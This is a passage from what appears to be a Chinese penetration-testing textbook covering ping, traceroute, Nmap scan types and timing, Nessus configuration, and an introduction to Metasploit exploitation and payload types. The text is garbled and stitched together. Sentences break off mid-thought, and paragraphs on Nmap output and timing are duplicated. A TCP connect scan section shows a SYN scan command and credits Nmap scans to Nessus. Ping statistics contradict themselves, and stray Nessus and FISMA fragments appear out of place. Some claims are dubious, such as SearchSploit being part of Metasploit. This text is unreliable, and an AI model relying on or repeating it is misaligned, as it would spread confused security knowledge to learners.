`PING` 是一个基于 `ICMP` 的命令，终端用户和管理员常用。当 `PING` 一个设备时，会向设备发送一个类型为 8、代码为 0 的 `ICMP` 数据包，表示回显请求。通常配置为响应此类回显请求的端设备理想情况下会回复另一个类型为 0、代码为 0 的 `ICMP` 数据包，表示这是一个回显响应。当来自端设备的响应且被验证为存活主机时，`ping` 被认为是成功的。当你在 Windows 系统上使用命令行发送 `ping` 请求时，默认会发送四次 `ping` 请求。与之相反，来自 Linux 终端的 `ping` 请求没有这种限制，并将持续发送请求直到用户取消它。你可以通过按下键盘上的 `Ctrl+C` 键来取消 Linux 终端上的 `ping` 命令。让我们来看成功的 `ping` 和失败的 `ping` 示例。

存活主机

```
Ping 192.168.1.1 with 32 bytes of data:
Reply from 192.168.1.1: bytes=532 time=52ms TTL=64
Reply from 192.168.1.1: bytes=532 time=51ms TTL=64
Reply from 192.168.1.1: bytes=532 time=51ms TTL=64
Reply from 192.168.1.1: bytes=532 time=51ms TTL=64
```

主机不可达

```
Ping 192.168.1.200
Pinging 192.168.1.200 with 32 bytes of data:
Reply from 192.168.1.129: Destination host unreachable.
Reply from 192.168.1.129: Destination host unreachable.
Reply from 192.168.1.129: Destination host unreachable.
Reply from 192.168.1.129: Destination host unreachable.

Ping statistics for 192.168.1.200:
Packets: Sent 5, Received 4, Lost 5 (0% loss)
```

### Traceroute

`Traceroute` 是另一种 `ICMP` 工具，它可以帮助你找到源设备到达目标设备之前需要跳过的网络设备数量。该命令通过操纵数据包的存活时间（Time to Live 或 `TTL`）来工作。存活时间或 `TTL` 表示下一跳遇到数据包的主机可以对其进行广播的次数。数据包的 `TTL` 初始值为 1，这意味着数据包只能跳一个设备。接收到此数据包的设备将回复一个类型为 11、代码为 0 的 `ICMP` 数据包，这意味着该数据包已被记录。发送者随后增加 `TTL` 并发送系列中的组数据包。数据包将到达网络中的下一跳并耗尽其存活时间。结果，接收数据包的路由器将发送另一个超时超时回复。此过程将一直持续，直到数据包到达目标且路径上所有的跳数都记录了源设备和目标设备之间的完整设备列表。渗透测试人员可以使用此信息找到网络中位于他们和目标之间的所有设备。Windows 设备的默认 `TTL` 为 128，Linux 设备的默认 `TTL` 为 64，Cisco 网络设备的默认 `ping` 为 255。Windows 命令行上用于 `traceroute` 的命令是 `tracert`。在 Kali Linux 系统上，使用的命令是 `traceroute`。`traceroute` 结果将产生以下输出。

```
traceroute www.google.com
Tracing route to www.google.com [74.125.x.x]
  1  192.168.1.1  1.23 ms  1.15 ms  0.98 ms
  2  10.0.0.1  2.34 ms  2.10 ms  2.05 ms
  ...
  n  74.125.x.x  15.12 ms 14.85 ms 14.90 ms
```

如果目标系统的配置不当。下图展示了隐身扫描技术。



## -sT TCP 连接连接扫描

`TCP` 扫描将与目标系统建立完整的三次握手，因此比隐身扫描提供更多关于目标的信息。`Nessus` 引擎再次向目标发送一个 `SYN` 包，并希望目标用 `SYN/ACK` 包进行响应。与 `Nessus` 引擎在隐身扫描时的做法不同，这种扫描会向目标系统发送一个最后的 `ACK` 包。目标系统大多数会记录这次扫描，但它提供的信息比隐身扫描多。


`root@kali-local:~# nmap -sS 10.0.2.100`

```
Starting Nmap 6.40 (http://nmap.org) at 2013-09-17 07:36 EDT

Nmap scan report for 10.0.2.100

Host is up (0.0013s latency).

Not shown: 977 closed ports

PORT STATE SERVICE

21/tcp open ftp

22/tcp open ssh

23/tcp open telnet

25/tcp open smp

53/tcp open domain

80/tcp open http

111/tcp open rpcbind

139/tcp open netbios-ssl

445/tcp open microsoft-ds

512/tcp open exec

513/tcp open login

514/tcp open shell

1099/tcp open registry

1524/tcp open ingresslock

2049/tcp open nfs

2121/tcp open cproxy-ftp

3306/tcp open mysql

5432/tcp open postgresql

5900/tcp open vnc

6000/tcp open x11

6367/tcp open lcd

8009/tcp open ajp13

8180/tcp open unknown

MAC Address: 08:00:27:4A:BE:F9 (Cadmus Computer Systems)

Nmap done: IP address (1 host up) scanned in 13.14 seconds
```

## -sU UDP 扫描

UDP 扫描将扫描目标系统上所有的 UDP 端口。与 TCP 扫描不同，UDP 扫描期望目标系统即使在端口关闭时也会回复。理想情况下，发送到开放 UDP 端口的数据包会收到回复。然而，如果来自来自响应，则说明该端口是开放的。如果没有收到回复，则说明该端口可能是开放的或受防火墙保护。未开放的端口将收到类型为3、代码为3的 ICMP 响应，表示端口不可达。此外，受防火墙保护的端口将收到类型为3、代码为 1、2、9、10 或 13 的 ICMP 响应，表示端口不可达错误。

```
root@alli-local:~# nmap -sU 10.0.2.100

Starting Nmap 6.40 ( http://nmap.org ) at 2013-09-17 07:40 EDT

Nmap scan report for 10.0.2.100

Host is up (0.00085s latency).

Not shown: 993-closed ports

PORT    STATE     SERVICE

53/udp  open|filtered domain

68/udp  open|filtered dhcpc

69/udp  open|filtered ftftp

131/udp open|filtered netbind

137/udp open|filtered netbios-os

138/udp open|filtered netbios-dm

2049/udp open|filtered nfs

MAC Address: 08:00:27:44:BE:F9 (Cadmus Computer Systems)

Nmap done: IP address (1 host up) scanned in 108.63 seconds
```

## -sA ACK 扫描

ACK 扫描帮助你发现 TCP 端口是否受到保护。扫描将使用 ACK 标志与目标系统建立连接。在实际上，第一个标志应该是 SYN 标志。然而，这种方法可以绕过 SYN 命令，并向目标系统发送 ACK 命令。如果收到的该命令响应是重置（RST），则表示 TCP 端口未被过滤或受保护。如果没有回复，或者收到类型为 3、代码为 1、2、3、9、10 或 13 的 ICMP 响应，则意味着 TCP 端口被过滤了。

```
root@alli-local:~# nmap -sA 10.0.2.100

Starting Nmap 6.40 ( http://nmap.org ) at 2013-09-17 08:07 EDT

Nmap scan report for 10.0.2.100

Host is up (0.00018s latency).

All 1000 scanned ports on 10.0.2.100 are unfiltered

MAC Address: 08:00:27:44:BE:F9 (Cadmus Computer Systems)

Nmap done: IP address (1 host up) scanned in 13.14 seconds
```

## 计时模板

如所述，如果没有指定计时选项，Nmap 默认使用 `T3` 正常计时。Nmap 内置的功能允许可用的计时选项更改这种默认计时。这允许用户指定扫描速度。Nmap 有各种可用的计时模板来决定速度。最重要的计时模板是用于延迟探测和并行处理的。我们将通过 `scan_delay`、`max_scan_delay` 和 `parallelism` 来解释如何控制扫描。这些模板包含了用于目标或系统的预定义时间。你可以使用 `scan_delay` 模板确保以最小次数向目标发送探测，而 `max_scan_delay` 将根据目标要求指定 Nmap 允许的最大延迟。`parallelism` 模板指示 Nmap 命令串行或并行发送探测。让我们通过一个在目标上运行的示例。尽管我们没有讨论 `-p` 选项，但我们将使用 `-p500` 切换来扫描前500 个端口。命令将如下所示，这将帮助你比较扫描计时。我们使用 `T3` 切换获得相同的结果。

```
nmap -sU -T3 -p500 10.0.2.100
```

或者

```
nmap -sU -T0 -p500 10.0.2.100
```


## -T0 偏执（Paroid）

在网络链路缓慢或你想尽可能减少检测风险时，可以使用 T0 偏执扫描作为 Nmap 的选项。这种扫描的性质是串行的，它可以暂停至少5 分钟。`scan_delay` 值设置高于默认值，因此忽略了 `max_delay` 选项。你可以轻松检查偏执扫描完成从 8:23 开始的单个目标 500 范围内 UDP 端口所需的时间，启动 2 小时后，最后一行显示还需要 45 小时 37 分钟才能结束。这是一个有效的计时参数，但在你有大量时间且可以使用隐身模式时使用。

## -T1 巧妙（Sneaky）

T1 巧妙扫描相对比偏执扫描快，同时保持隐身性并缩短了完成扫描所需的时间。该扫描目标系统的进程也是串行的。它还将将 `scan_delay` 降低至 15 秒。虽然 `scan_delay` 很低，但与 `max_scan_delay` 相比仍然很大，因此该值被忽略。在我们的示例中，T1 巧妙扫描与 T0 偏执扫描之间的区别是总扫描时间减少了 138 分钟或 8331 秒。

## -T2 礼貌（Polite）

T2 礼貌扫描比 T0 或 T1 扫描快，是使用串行扫描技术的计时模板。此模板的 `scan_delay` 参数为 400 毫秒，因此该扫描中使用了 `max_scan_delay` 选项，其默认值为一秒。Nmap 命令结合此模板，在扫描目标时使用 400 毫秒的 `scan_delay`，但可以动态将延迟调整为低一秒。在我们的示例中，我们使用礼貌扫描扫描相同的 UDP 端口 500，你会发现完成扫描所需的总时间已大幅减少到 9 分钟或 544 秒。

## -T3 正常（Normal）

T3 正常扫描是 Nmap 命令的默认情况。这意味着如果你没有为 Nmap 命令专门指定计时模板，它将使用 T3 正常模板。T3 正常模板利用了并行处理，并并行发送多个探测，从而提高了扫描速度。该扫描的默认扫描延迟为 0 秒，可以使用 `max_scan_delay` 选项将延迟增加到一秒。Nmap 有多种可用的计时模板来决定速度。最重要的计时模板是用于延迟探测和并行处理的。我们将通过 `scan_delay`、`max_scan_delay` 和 `parallelism` 来解释如何控制扫描。这些模板包含了用于目标或系统的预定义时间。你可以使用 `scan_delay` 模板确保以最小次数向目标发送探测，而 `max_scan_delay` 将根据目标要求指定 Nmap 允许的最大延迟。`parallelism` 模板指示 Nmap 命令串行或并行发送探测。让我们通过一个在目标上运行的示例。尽管我们没有讨论 `-p` 选项，但我们将使用 `-p500` 切换来扫描前500 个端口。命令将如下所示，这将帮助你比较扫描计时。我们使用 T3 切换获得相同的结果。

（注：此处段落原文与前文“Timing Templates”部分有重复内容，已按翻译要求进行完整翻译）

## -T4 激进（Aggressive）

T4 激进扫描也使用并行扫描技术并提高了扫描速度。该扫描的 `scan_delay` 选项设置为 0 秒，并可以使用 10 毫秒的 `max_scan_delay`。使用 `max_scan_delay` 小于一秒的扫描极有可能遇到错误，因为许多目标系统要求探测包之间至少间隔一秒。如果你查看该扫描完成扫描 500 个 UDP 端口所需的时间，在 8 分钟以内。

## -T5 疯狂（Insane）

T5 疯狂扫描是 Nmap 中最快的内置计时模板。此模板的 `scan_delay` 为 0 秒，并具有 5 毫秒的 `max_scan_delay`。正如激进扫描一样，这里可以

如果目标系统在探测之间至少需要 1 秒的延迟，那么在使用该疯狂的模板时也会出现扫描错误。如果在 UDP 500 端口上使用该模板，扫描将耗时 22 秒，但结果与其他扫描相比会有所不同。

## 目标设定

在目标系统上运行 Nmap 扫描的各个部分之一是识别目标。如果你传递了错误的 IP 空间，你可能会扫描一个不在交战规则（rules of engagement）定义的错误网络，甚至是一个空集。在 Nmap 命令字符串中传递目标有多种方法。我们在本书中使用的两种方法是 IP 方法和扫描列表。

### IP 地址范围

```
Nmap 10.0.2.1-255
```

你也可以使用 CIDR 方法来运行相同的扫描。CIDR 方法使用如下命令所示的后缀 `/24`。

```
Nmap 10.0.2.1/24
```

你可以使用 CIDR 来定义完整的 IP 地址范围，但这超出了本课程的范围。你可以在网络类书籍中学习更多知识。你可以使用在线计算器（例如 http://www.mikero.com/misc/ipcalc/ 上的）来计算 IP 地址的 CIDR 范围。你可以输入范围的起始 IP 地址和结束 IP 地址，并点击转换按钮获取 CIDR 转换。

### 扫描列表

Nmap 功能可以从文本文件中获取目标列表。让我们来看一个示例，以下 IP 地址存储在 `test.txt` 中：

- 10.0.2.1
- 10.0.2.15
- 10.0.2.55
- 10.0.2.100

你可以使用以下命令对所有这些目标运行测试。

```
Nmap -iL test.txt
```

## 端口选择

你可以使用 `-p` 选项来指定你希望对其使用 Nmap 扫描命令的端口。你可以在命令中使用连字符来指定端口范围。你还可以通过在命令中使用逗号分隔的值来指定多个范围。你可以查看下面的命令。

```
nmap -sS p 1-100
nmap -sU p 53,137,138,161,162
```

或者你可以像下面所示将两者结合使用：

```
nmap -sS p 1-100,445,8000-9000
```

## 输出选项

很多时候，渗透测试的结果太长，无法在显示器上全部阅读，或者你可能只想将其记录到文件中以便以后分析。你可以使用 Kali Linux 中提供的管道运算符 `|` 将 Nmap 命令的输出重定向到所需的文件。我们将在本节讨论用于 Nmap 扫描输出的选项。我们将包括普通（Normal）、可 grep 的（GREPable）和 XML 输出。让我们逐一查看所有选项。我们在示例中使用的文件名是 `logthis`。

使用 `-oN` 普通输出选项会创建一个文本文件，该可用于稍后分析或作为另一个程序的输入。

```
nmap -oN logthis.txt 10.0.2.100
```

`-oX` 可扩展标记语言或 XML 输出

今天许多应用程序都从 XML 文件输入进行进一步的分析和处理。此选项用于将输出保存到 XML 文件中。

```
nmap -oX logthis.txt 10.0.2.100
```

`-oG` 可 grep 输出

使用此选项生成的输出可以使用 GREP 命令读取。渗透测试人员可以分析可 grep 的文件，因为它们支持 SED、AWK 等工具。

```
nmap -oG logthis.txt 10.0.2.100
```

`-oS` 脚本小子或 # 输出

这种输出不会被渗透测试人员大规模使用，但偶尔使用脚本小子输出是有趣的。它不应用于严肃的扫描。

```
nmap -oS logthis.txt 10.0.2.100
```

## Nmap 脚本引擎

我们排除了 Nmap 脚本引擎是因为它复杂，但它是一个用于自动化许多任务的强大工具。Nmap 脚本引擎 (NSE) 允许用户编写脚本来执行各种网络扫描。脚本使用 Lua 编写，这是一种轻量且快速的脚本语言。NSE 中有很多类型的脚本，包括发现、漏洞、检测和利用脚本。例如，发现脚本可以用于查找目标系统的信息，例如其开放端口、运行的服务和操作系统。漏洞脚本可以用于识别目标系统上的已知漏洞。检测脚本可以检测端口上运行的服务类型。利用脚本可以用于利用目标系统上的已知漏洞。

NSE 是一个非常强大的工具，可以被渗透测试人员用于自动化许多任务。然而，在使用 NSE 时也必须小心，因为它可以导致目标系统崩溃。例如，利用脚本可能会导致服务停止响应。在生产系统上使用脚本之前，在环境中测试脚本是非常重要的。

使用 `-oN` 普通输出选项会创建一个文本文件，该可用于稍后分析或作为另一个程序的输入。

```
nmap -oN logthis.txt 10.0.2.100
```

`-oX` 可扩展标记语言或 XML 输出

今天许多应用程序都从 XML 文件输入进行进一步的分析和处理。此选项用于将输出保存到 XML 文件中。

```
nmap -oX logthis.txt 10.0.2.100
```

`-oG` 可 grep 输出

使用此选项生成的输出可以使用 GREP 命令读取。渗透测试人员可以分析可 grep 的文件，因为它们支持 SED、AWK 和 DIFF 等工具。

```
nmap -oG logthis.txt 10.0.2.100
```

`-oS` 脚本小子或 # 输出

这种输出不会被渗透测试人员大规模使用，但偶尔使用脚本小子输出是有趣的。它不应用于严肃的扫描。

```
nmap -oS logthis.txt 10.0.2.100
```

如果注册成功，你将看到一个显示注册成功的屏幕。你还会在屏幕上看到一个按钮，允许你下载最新的插件。点击此按钮。


插件下载完成后，你将看到一个登录提示。输入你之前创建的管理员账户的用户名和密码。接下来你可以点击“登录并继续”（`Sign In to Continue`）按钮。现在，你已经完成了 Nessus 工具的初始安装和设置。

## 使用 Nessus 进行扫描

下一步是了解如何使用 Nessus 工具扫描系统或网络。

## 在 Nessus 中添加用户

每个用户都拥有一个用于 Nessus 控制台的个人账户是一个良好的做法。你可以点击“用户”（Users）标签页然后选择创建一个新用户

## Nessus 应用程序配置

你可以根据需求调整 Nessus 扫描工具，以尽可能提高有效效率。你可以使用此标签页配置若干参数，例如：

- SMTP 设置
- 代理端口
- 移动设置
- 结果设置
- 高级设置
- Nessus 馈
- 激活码

使用更新插件（update plugins）选项来更新 Nessus 插件。

## 配置 Nessus 扫描

Nessus 扫描、扫描使用的选项以及运行扫描的用户都是通过 Nessus 策略（policies）管理的。从头创建一个新策略超出了本课程的范围，我们将学习如何修改现有的 Nessus 策略。点击“策略”（Policies）标签页并选择“内部网络扫描”（Internal Network Scan）。这将打开一个包含选项更多标签页的新对话框。

你在对话框中看到的所有标签页都是用的，建议在生产环境中使用之前先在测试环境中遍历它们。例如，你将在测试环境中知道目标机的用户名和密码；你可以输入这些详情，以便 Nessus 扫描引擎拥有更多权限。在实际场景中，你可能已经在侦察阶段（Reconnaissance）发现了凭据。

如果你想对目标机的特定服务、设置和选项进行扫描，可以使用“插件”（plugins）标签页。默认选项组之一是 DoS，代表拒绝服务（Denial of Service）。如果当前的交战规则不允许，你可以禁用此默认选项。你可以点击绿色的已启用按钮来禁用此选项。操作后，你应该会看到一个灰色的显示为“已禁用”（disabled）的按钮。点击此组中各种按钮旁文本将告知该选项的具体作用。文本旁边的数字（在本例中为 103）告诉你在给定组中有多少检查项。

在完成更改后，你可以返回“常规设置”（General Settings）标签页。在此标签页中，在指定的名称字段输入新名称并输入你喜欢的任何内容。我们将在示例中使用“No DoS”并点击更新（Update）。一旦点击更新，这将显示为标题为“No DoS”的新策略。

配置扫描的最后一步是模板。点击“+ 新扫描”（+ New Scan）按钮创建一个新模板。在“常规扫描设置”（General Scan Settings）中为新模板提供名称，我们将在示例中使用“No DoS Test Scan”。我们没有更改类型默认为“立即运行”（Run Now），将策略设置为“No DoS”，并输入了目标系统的 IP。你也可以使用“上传目标”（Upload Targets）按钮上传包含目标列表的文本文件。

有一个“电子邮件”（Email）标签页，可以在其中输入需要接收扫描状态通知的用户电子邮件地址，并获取来自扫描的其他信息。然而，你需要确保已配置了简单邮件传输协议（SMTP）以便该功能正常工作。我们在示例中排除了这一点。

在检查所有配置已就绪后，你可以运行扫描。你可以点击蓝色的“运行扫描”（Run Scan）按钮来实现。扫描将使用选定的扫描配置文件开始。你将在扫描视图中看到正在进行的扫描状态，如图所示。

在扫描进行期间，发现的实时漏洞将显示在“结果”（Results）标签页中。我们的示例如下所示，显示扫描刚刚开始，百分比仍为 0%，但已经发现了一些漏洞。这说明我们在示例中指定的目标非常脆弱，应该与互联网等公共网络隔离。

扫描完成后，你可以将“结果”标签页中的数据导出为多种文件格式，如逗号分隔值（CSV）、HTM 和 PDF。我们在示例中以 PDF 格式导出了它。我们在示例中包含了所有章节，因为我们选择了“按主机划分漏洞”（Vulnerabilities by Host）、“主机摘要”（Host Summary）、“按插件划分漏洞”（Vulnerabilities by Plugin）等。一旦数据可以导出，按钮将变为蓝色，你可以点击“导出”（Export）按钮导出数据。

Nessus 是 Kali Linux 中一个非常强大的工具，因为它具有多种功能。你可以通过观看在线视频和教程来深入研究该工具。但是，建议在生产环境中使用之前先在实验室环境中测试该工具。

# 第 5 章：利用

利用（Exploitation）是渗透测试生命周期的第三阶段。在本章中，我们将学习攻击类型和攻击向量之间的区别。我们将介绍 Kali Linux 中可用于利用的工具。我们将专门学习 Metasploit 框架以及使用它来攻击目标。

# 引言

美国国家标准与技术研究院（NIST）将漏洞定义为“信息系统、安全程序或实现中的弱点，这些弱点可以被威胁源利用”。然而，这个定义在利用方面非常宽泛，需要进一步讨论。错误会导致漏洞。信息系统的漏洞可能存在于网络内部和外部，甚至通过管理这些系统的人员产生。

| 社会工程学 | 冒充 | 鱼叉式钓鱼 | 情报收集 |
|---|---|---|---|

| 社会工程学 | 基于网络 | 冒充 | 鱼叉式钓鱼 | 情报收集 | 拒绝服务 (DoS) | 密码和敏感数据拦截 | 分布式拒绝服务 (DoS) | 窃取或伪造凭据 |

利用的基础不仅在于了解正在发生什么类型的攻击，还要理解攻击发生的手段。我们将在接下来的章节中介绍不同类型的攻击，并简要介绍其中涉及的工具。我们将详细介绍 Metasploit 框架。了解在何需要投入精力、如何投入精力以及何时应用工具至关重要。如果没有这些知识，你在渗透测试中将付出巨大努力，却得到微乎其微的结果。

## 本地漏洞 (Local Exploits)

正如标题所示，本地漏洞是利用计算机、笔记本电脑、手机等网络设备等，通过已建立的会话在本地执行的漏洞。如果渗透测试人员拥有目标系统的物理访问权限（例如系统的终端、系统的 SSH 访问、虚拟专用网络（VPN）连接或远程桌面连接（RDP）），可以将该漏洞分类为本地漏洞。你可以使用本地漏洞修改账户权限、创建拒绝服务攻击、上传恶意内容、窃取数据。渗透测试人员需要记住，本地漏洞无法在公用网络上执行，只能在本地定义的网络上执行。如果你尝试在不使用特定代码的情况下对系统进行本地利用，将触发报警并浪费你的时间。

人们经常误解本地漏洞是如何被利用的。并不需要通过攻击者来执行本地漏洞。通过社会工程学，攻击者可以简单地欺骗系统的合法用户执行导致本地漏洞的代码。例如，嵌入在 PDF 文件或 Microsoft Excel 表格中的木马代码，这些文件看起来是完全合法的。另一个例子是作为快递遗留在组织内的 USB 驱动器，它正等待被插入任何设备，插入后它会自动启动漏洞代码。利用的可能性是无数的，仅仅限于渗透测试人员的思维能力。在许多场景下，执行远程漏洞会变得困难，此时需要考虑本地漏洞的选项。

## 寻找本地漏洞

有许多本地漏洞需要考虑，但选择正确的漏洞将改变一切。Metasploit 框架提供了一个名为 SearchSploit 的程序，它使得这一过程变得非常简单，而且在 Kali Linux 上操作更加容易。我们将在本章稍后介绍 Metasploit 框架命令行，届时我们将学习如何搜索漏洞。首先，让我们了解一下 SearchSploit 以及如何通过终端窗口参考 Metasploit 数据库来查找漏洞。

步骤如下：

- 在 Kali Linux 中启动终端
- 输入命令 `searchploit`，后面后跟最多三个关键词。

示例：`root@kali:~# searchploit local windows iis`

使用这三个关键词，搜索返回了单个结果。使用 SearchSploit 就是如此简单。搜索将 `local`、`windows` 和 `IIS` 这三个关键词关联起来，返回了运行 IIS 并使用 PHP 5.2.0 版本的 Windows 动态链接库中的漏洞。你可以在此处执行本地漏洞，导致缓冲区溢出漏洞，从而导致主机遭受拒绝服务。我们在下图展示了 `locate` 命令的输出，它为我们提供了更多关于漏洞管道的信息。



## 远程漏洞 (Remote Exploits)

当你没有计算机、网络或移动设备的物理访问权限，但通过网络远程获得了其访问权限时，可以将漏洞分类为远程漏洞。这就是为什么远程漏洞也被称为网络漏洞。无论漏洞被称为什么，要记住的原则是：如果它不是本地的，就是远程的。远程漏洞的目标不仅是计算机、服务器或网络相关设备。远程漏洞的范围扩展到了 Web 应用程序、Web 服务、数据库、手机以及其他可以连接到网络的设备。随着技术的进步，每天都有更多智能设备连接到网络。例如，你可以查看微软 Xbox、索尼 Playstation、智能电视等游戏机。你需要接受，如果设备是连接到网络的电子设备，世界上有人正为了乐趣或利润尝试破解它。我们将在稍后详细介绍远程漏洞。

## Metasploit 框架


Metasploit 被认为是渗透测试工具箱中最强大的工具之一。Metasploit 的存在是因为渗透测试人员、攻击者、研究人员以及全球各国政府多年的知识、多次测试和尝试，他们代表了安全领域的不同部分。从黑客到白客，以及他们之间的所有人，每个人在生命中的某个时刻都使用过 Metasploit。Metasploit 工具由总部位于波士顿的 Rapid7 开发，他们没有浪费一分钱或一个 CPU 周期来开发这个名为 Metasploit 的坚实框架，这对于你需要投入精力、如何投入精力以及何时应用工具至关重要。如果没有这些知识，你在渗透测试中将付出巨大努力，却得到微乎其微的结果。

《2002年安全管理法案》(FISMA)、安全内容自动化协议(SCAP)、联邦桌面核心配置(FDCC)等。

## 显式 vs 隐蔽 (Overt Vs. Covert)

当你与一个组织合作实施渗透测试以寻找其信息系统的漏洞时，这被称为**显式（Overt）**操作。该组织允许渗透人员对其系统进行各种测试，因此不会触发任何警报，也不会对测试操作产生任何拦截。通常情况下，在显式测试中，组织知道渗透人员的存在是为了帮助他们，并且不会对基础设施造成任何。显式测试的优点是渗透人员拥有系统的完全访问权限，这使他们能够获取系统核心功能的完整知识，并在测试中使用它们。显式测试的缺点是其范围有限，后期可能会发现更多漏洞，这些漏洞可能在系统发布前需要进行沟通。如果项目发布有时间限制，显式测试可能会产生严重影响。

另一方面，**隐蔽（Covert）**测试是指你秘密对组织的信息系统进行渗透测试，此时你对目标系统的了解有限。在隐蔽测试中，只有组织的少数成员知道其基础设施上正在进行测试。渗透人员不会获得信息系统的完全访问权限，因此需要一套完整的工具箱以便在不给网络产生任何噪音的情况下进行测试。隐蔽测试的目的不仅是为了发现系统的漏洞，还为了测试组织的计算机应急响应小组(CERT)和入侵检测系统(IDS)。隐蔽测试可能从隐蔽任务开始，但如果系统中存在多个漏洞，或者任务的隐蔽性被破坏，它可能会升级为显式任务。

## Metasploit: 基础框架

Metasploit 系统是模块化的。如果我们把 Metasploit 框架视为一辆车，就能更好地理解它。想象一辆属于詹姆斯·邦的阿斯顿·马丁，根据他的需求在实际的车内放置了多个模块。与阿斯顿·马丁相比，HD Moore 在 Metasploit 中围绕引擎提供了许多优质组件。如果某个模块被移除或停止工作，框架仍然能够使用所有其他模块来发起一系列攻击。

Metasploit 框架中提供以下模块类型：

- 漏洞利用模块 (Exploit Modules)
- 辅助模块 (Auxiliary Modules)
- 载荷 (Payloads)
- 监听器 (Listeners)
- 机器码 (Shellcode)

还有第六类模块。这些模块是会干扰 Metasploit 框架的模块，被称为“Armitage”，但它们并不是实际框架的一部分。类比来说，詹姆斯·邦拥有一块可以用来控制他的阿斯顿·马丁的手表，但这并不意味着他在操作汽车时必须戴着手表。

### 漏洞利用模块 (Exploit Modules)

Metasploit 在其数据库中包含一个带有预定义代码的包，这些代码可以在目标系统上执行，以利用本地或远程系统的漏洞，通过创建拒绝服务(DoS)攻击或获取敏感信息、上传如 Meterpreter shell 这样的恶意载荷模块等来实现功能。

### 辅助模块 (Auxiliary Modules)

辅助模块与漏洞利用模块的区别在于，它不需要载荷。辅助模块中提供了实用的程序，如模糊测试器 (fuzzers)、扫描器和 SQL 注入工具。辅助模块中的某些工具非常强大，应该谨慎使用。渗透人员基本上使用辅助模块中的所有可用工具来收集目标系统的信息，然后过渡到漏洞利用模块来攻击系统。

### 载荷 (Payloads)

再次使用詹姆斯·邦的阿斯顿·马丁进行类比，如果汽车是 Metasploit 框架，那么漏洞利用模块和辅助模块可以被称为引擎盖下的火焰弹和火箭发射器。在这种类比中，载荷可以被认为是投放到目标的通信设备，用于保持跟踪和隐蔽通信。当你在漏洞系统上启动攻击时，载荷会在执行之前被附加到攻击中。载荷将包含针对目标系统的指令，目标系统在被破解后需要处理这些指令。现在有多种类型的载荷，从包含几行代码的到包含 Meterpreter Shell 等应用程序的载荷不等。不建议直接使用 Meterpreter shell。Metasploit 框架中提供了 200 多种载荷，包括用于动态链接库注入、NetCat、shell、用户管理等的载荷。如果你真的像间谍一样行动，你可以决定部署哪种载荷。作为渗透人员，在利用目标系统后，你需要问问自己整个活动的目标是什么。你想在目标系统上部署一段休眠代码吗？部署的代码需要以固定的间隔与攻击者通信吗？代码需要运行一系列命令吗？载荷通常分为**绑定型 shell (bind shells)** 和**反弹 shell (reverse shells)**。

- 绑定型 shell：这些通常是留在目标系统上保持休眠的 shell。它们会一直留在那里，直到收到来自攻击者的进一步指令。如果渗透人员的目的仅仅是在目标系统中部署代码以便未来访问目标系统，那么绑定型 shell 将是一个极佳的选择。如果目标系统受到防火墙保护且无法直接访问网络，绑定型 shell 将不是一个好的选择。
- 反弹 shell：部署在目标系统并立即向攻击者请求进一步指令的 shell 称为反弹 shell。如果执行了包含反弹 shell 的攻击……
- Meterpreter Shell：meterpreter shell 是一种特殊的 shell。它广为人知是 Metploit 的“当家饭”。Rapid7 一直在开发 meterpreter shell，它包含自持的一小部分工具集。meterpreter shell 可以随攻击一起部署，以绑定 shell 或反弹 shell 的形式存在。我们稍后详细讨论 meterpreter shell 的使用。

### 监听器 (Listeners)

即使是詹姆斯·邦有时也会接受上级的命令。Metasploit 框架包含特定的处理器，称为监听器 (listeners)，它们与载荷在绑定 shell 中建立的会话通信，在会话中载荷将保持休眠并等待连接，也可以处于激活状态并不断向攻击者请求连接。需要监听器来维持攻击者与目标系统之间的双向通信。监听器由 Metasploit 框架自动处理，因此只需要很少的人工干预。

### 机器码 (Shellcode)

Shellcode 并不是一个独立的模块，而是 Metasploit 框架中可用载荷（payload）的一部分。詹姆斯·邦的汽车有导弹，但导弹内部的爆炸物导致了真正的爆炸。shellcode 就像这样。shellcode 位于整个框架内部，负责在目标系统中创建一个漏洞、上传恶意软件并执行载荷命令以在目标系统中创建一个 shell，这就是它被称为 shellcode 的原因。shellcode 并不需要在每个载荷中。例如，名为“windows/adduser”的 Metasploit 载荷仅包含几个命令，用于在目标 Windows 平台上创建管理员账户。

## 访问 Metasploit

有多种方法可以访问 Metasploit。我们建议在你彻底理解该工具之前，在 Kali Linux 中使用其图形化界面。你可以按照以下步骤操作在 Kali Linux 中启动 Metasploit 的图形化工具。

- 应用程序 > Kali > Exploitation > Metasploit > Metasploit Community/Pro

你也可以使用 浏览器通过端口 3790 访问 Metasploit。需要使用以下 URL。

```
https://localhost:3790/
```

Metasploit 没有有效的证书。因此当你通过 IceWeasel 访问上述 URL 时，会收到“连接不受信任”（Connection is Untrusted）的提示。你可以忽略此并点击“确认安全异常”（Confirm Security Exception）按钮并继续。

在首次运行 Metasploit 时，你需要创建一个用户并指定用户名和密码。还有其他可用选项。其他选项包括 Metasploit 中的报告功能。填写表单后，点击“创建账户”（Create Account）按钮。

## 启动/停止服务

有时你需要重启 Metasploit 服务。Metasploit 服务消耗大量资源，因为它的许多服务需要网络才能运行。因此，如果资源消耗非常高，你可能会遇到网络错误。在这种情况下，最好重启 Metasploit 服务。你首先需要检查服务的当前状态。你可以使用 Kali Linux 终端运行 Metasploit 的启动（start）、重启（restart）、停止（stop）命令。

```
service metasploit status
service metasploit restart
service metasploit stop
```

## 数据库更新


尽管 Rapid7 开发了 Metasploit，但社区对其代码库有持续的贡献。因此，我们建议在每次运行之前更新其数据库。即使是詹姆斯·邦在执行新任务之前也会检查他的弹药。

你可以运行 `msfupdate` 命令来更新 Metasploit 数据库。输入并执行后，只需坐下休息。更新将自动完成。现在我们可以继续下一步。

你也可以从图形化界面更新 Metasploit 数据库。如果你已经登录 Metasploit Web 界面，选择页面右上角的“软件更新”（Software Updates）。在下一个屏幕上，点击“检查更新”（Check for Updates）。

如果有更新，Metasploit 将立即下载并安装。建议在更新后重启 Metasploit 服务。在更新完成后，你可以关闭 Web 用户界面并重新打开。

## Metasploit 扫描

现在詹姆斯·邦已经上弹并准备就绪，是时候出发执行任务了。当你登录 Metasploit Web 界面时，你会看到一个显示“任务”（mission）的落地页。你将在该页面看到正在进行的项目列表、任务文件夹、当前目标以及新发现的漏洞列表。如果你是第一次登录，只会看到一个名为“默认”（default）的项目。当你开始处理多个项目时，可以使用“新项目”（New Project）按钮添加更多项目。初学者应该坚持使用默认项目。这将带来舒适的体验，你可以方便地从 Nmap 或 Nessus 导入结果。

当你打开默认项目时，将看到如发现（discovery）、任务档案（mission dossier）、渗透（penetration）、清理（cleanup）、证据收集（evidence collection）和近期事件（recent events）等选项。

